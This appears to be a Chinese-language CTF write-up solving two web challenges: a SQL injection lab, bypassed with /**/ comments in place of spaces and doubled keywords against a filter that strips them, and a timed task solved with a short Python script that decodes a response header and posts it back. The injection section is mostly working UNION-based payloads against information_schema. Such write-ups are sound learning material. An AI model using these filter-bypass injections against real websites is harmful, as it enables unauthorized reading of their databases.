 <br>

### 简单的sql注入
还是先判断注入点
```sql
?id=1   # 正常第一条数据
?id=1a  # 还是第一条数据
?id='=' # 全部数据
判断为字符型，总共三条数据
```
测试过滤字符
```sql
?id='||1%23 #' 报错，整条语句就两个单引号的点，最前或者最后，这样看出问题的可能是最后，注释符这块可能有问题，而且基本是被替换，不然应该会有别的信息出来
?id='||'%23'=' # 回显3条数据，果然
```
利用bp进行fuzz测试 发现就`# --`是被替换，那么直接闭合即可
```sql
由于最后闭合问题，我直接不测试列数，直接靠猜来查询表
?id=0' union select '1 # 页面回显ID: 0' '1  说明union select 被整个过滤
?id=1 union select 1 # ID: 1 1
?id=1 union 1 # ID: 1 1
?id=1 union1  # ID: 1 union1
上面测试结果显示，如果他们之后出现空格，才会被过滤，所以利用/**/，达到绕过
?id=1 union/**/1 # ID: 1 union/**/1

继续注入
?id=0' union/**/select/**/'1 # 页面回显1
?id=0' union/**/select/**/table_name from/**/information_schema.tables where/**/table_schema=database() and/**/'1  # use near '.tables where/**/=database() and/**/'1'' at
仔细一看是table_schema被替换成空了。为了方便，把整条语句仍进去看下回显，的确只有一个被替换

重写绕过
?id=0' union/**/select/**/table_name from/**/information_schema.tables where/**/tabtable_schemale_schema=database() and/**/'1 # flag,web_1

?id=0' union/**/select/**/column_name from/**/information_schema.columns where/**/table_name='flag # 发现information_schema.columns 和 column_name也被替换
?id=0' union/**/select/**/colucolumn_namemn_name from/**/informinformation_schema.columnsation_schema.columns where/**/table_name='flag # flag,id
?id=0' union/**/select/**/flag from/**/flag where/**/'1 # 得到flag
```
<br>

### 天下武功唯快不破
其实和简单，把响应头的内容解码，在POST到页面中可以得到flag。但是有时间限制，必须用脚本
但是最坑的是POST的key值是什么，我开始看了半天后来仔细看这绿色的字，我原本理解是base64解开左边是parameter，右边是key
`<!-- please post what you find with parameter:key -->`
然后试了半天，我的天

```python
import base64
import requests

url = 'http://ctf5.shiyanbar.com/web/10/10.php'
s = requests.Session()
r = s.get(url)
flag = base64.b64decode(r.headers['FLAG'])
print(flag)
flag = flag.split(':')
data = {'key': flag[1]}
print(data)
print(s.post(url, data=data).text)
```
<br>
